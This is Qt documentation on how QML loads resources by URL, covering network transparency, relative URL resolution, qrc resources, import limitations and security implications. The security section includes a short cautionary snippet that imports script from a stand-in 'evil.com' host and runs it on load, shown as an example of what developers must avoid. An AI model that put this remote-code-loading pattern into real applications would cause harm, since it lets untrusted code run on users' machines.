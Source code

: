 ```yaml
---
Title: QtQml.qtqml-documents-networktransparency
---
```

        
Resource Loading and Network Transparency
=========================================

<span class="subtitle"></span>
<span id="details"></span>
QML supports network transparency by using URLs (rather than file names) for all references from a QML document to other content. This means that anywhere a URL source is expected, QML can handle remote resources as well as local ones, for example in the following image source:

``` qml
Image {
    source: "http://www.example.com/images/logo.png"
}
```

Since a *relative* URL is the same as a relative file, development of QML on regular file systems remains simple:

``` qml
Image {
    source: "images/logo.png"
}
```

Network transparency is supported throughout QML, for example:

-   Fonts - the `source` property of FontLoader is a URL
-   WebViews - the `url` property of WebView (obviously!)

Even QML types themselves can be on the network - if the Prototyping with qmlscene is used to load `http://example.com/mystuff/Hello.qml` and that content refers to a type "World", the engine will load `http://example.com/mystuff/qmldir` and resolve the type just as it would for a local file. For example if the qmldir file contains the line "World World.qml", it will load `http://example.com/mystuff/World.qml` Any other resources that `Hello.qml` referred to, usually by a relative URL, would similarly be loaded from the network.

<span id="relative-vs-absolute-urls"></span>
Relative vs. Absolute URLs
--------------------------

Whenever an object has a property of type URL (QUrl), assigning a string to that property will actually assign an absolute URL - by resolving the string against the URL of the document where the string is used.

For example, consider this content in `http://example.com/mystuff/test.qml`:

``` qml
Image {
    source: "images/logo.png"
}
```

The Image source property will be assigned `http://example.com/mystuff/images/logo.png`, but while the QML is being developed, in say `C:\User\Fred\Documents\MyStuff\test.qml`, it will be assigned `C:\User\Fred\Documents\MyStuff\images\logo.png`.

If the string assigned to a URL is already an absolute URL, then "resolving" does not change it and the URL is assigned directly.

<span id="qrc-resources"></span>
QRC Resources
-------------

One of the URL schemes built into Qt is the "qrc" scheme. This allows content to be compiled into the executable using The Qt Resource System. Using this, an executable can reference QML content that is compiled into the executable:

``` cpp
    QQuickView *view = new QQuickView;
    view->setUrl(QUrl("qrc:/dial.qml"));
```

The content itself can then use relative URLs, and so be transparently unaware that the content is compiled into the executable.

<span id="limitations"></span>
Limitations
-----------

The `import` statement is only network transparent if it has an "as" clause.

More specifically:

-   `import "dir"` only works on local file systems
-   `import libraryUri` only works on local file systems
-   `import "dir" as D` works network transparently
-   `import libraryUrl as U` works network transparently

<span id="implications-for-application-security"></span>
Implications for Application Security
-------------------------------------

The QML security model is that QML content is a chain of trusted content: the user installs QML content that they trust in the same way as they install native Qt applications, or programs written with runtimes such as Python and Perl. That trust is establish by any of a number of mechanisms, including the availability of package signing on some platforms.

In order to preserve the trust of users, QML application developers should not load and execute arbitrary JavaScript or QML resources. For example, consider the QML code below:

``` qml
import QtQuick 2.0
import "http://evil.com/evil.js" as Evil
Component {
    onLoaded: Evil.doEvil()
}
```

This is equivalent to downloading and executing "http://evil.com/evil.exe". **The QML engine will not prevent particular resources from being loaded**. Unlike JavaScript code that is run within a web browser, a QML application can load remote or local filesystem resources in the same way as any other native applications, so application developers must be careful in loading and executing any content.

As with any application accessing other content beyond its control, a QML application should perform appropriate checks on any untrusted data it loads. **Do not, for example, use `import`, Loader or [XMLHttpRequest](../QtQml.qtqml-javascript-qmlglobalobject.md#xmlhttprequest) to load any untrusted code or content.**

